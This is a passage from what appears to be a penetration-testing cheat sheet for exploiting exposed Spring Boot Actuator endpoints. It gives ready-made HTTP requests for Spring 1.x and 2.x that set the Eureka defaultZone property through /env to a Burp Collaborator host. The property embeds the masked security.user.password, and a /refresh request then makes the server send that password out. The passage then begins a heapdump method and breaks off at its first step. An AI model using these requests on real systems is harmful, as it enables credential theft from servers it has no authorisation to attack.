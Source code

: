 - **eureka.client.serviceUrl.defaultZone** Method ( not applicable when there are special URL characters in plaintext data):

**spring 1.x**

```
POST /env HTTP/1.1
Host: {{ target-domain vulnerable.net }}
Content-Type: application/x-www-form-urlencoded

eureka.client.serviceUrl.defaultZone=http:///{{ collaborator your.burpcollaborator.net }}/${{{ attribute security.user.password }}}
```

**spring 2.x**

```http
POST /actuator/env HTTP/1.1
Host: {{ target-domain vulnerable.net }}
Content-Type: application/json

{"name":"eureka.client.serviceUrl.defaultZone","value":"http://{{ collaborator your.burpcollaborator.net }}/${{{ attribute security.user.password }}}"}
```


**Step 4: **Refresh the configuration

**spring 1.x**

```http
POST /refresh HTTP/1.1
Host: {{ target-domain vulnerable.net }}
Content-Type: application/x-www-form-urlencoded
```

**spring 2.x**

```http
POST /actuator/refresh HTTP/1.1
Host: {{ target-domain vulnerable.net }}
Content-Type: application/json
```


### Obtain the Plaintext of the Password Desensitized by the Asterisk (method 4)

- When accessing the /env interface, the spring actuator will replace the attribute values ​​corresponding to some attribute names with sensitive keywords (such as password, secret) with * to achieve the effect of desensitization

#### Conditions of use:

- Normal GET request targeting `/heapdump` or `/actuator/heapdump` interface

#### Steps to use:
**Step 1:** Find the property name you want to get
